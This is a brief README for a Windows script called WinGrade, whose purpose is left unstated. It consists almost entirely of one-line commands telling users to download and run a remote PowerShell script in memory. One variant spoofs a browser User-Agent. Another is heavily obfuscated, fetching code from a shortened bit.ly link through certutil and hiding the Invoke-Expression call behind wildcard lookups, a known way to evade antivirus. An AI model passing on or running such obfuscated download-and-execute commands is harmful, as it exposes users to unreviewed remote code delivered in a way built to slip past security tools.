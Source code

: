 # WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.


Just execute [CMD]:
```
powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"
```
or
```
powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"
```
or in [POWERSHELL]

```
powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'`r`n'))"
```

This Script is still in the early Alpha release!!! And has some bugs
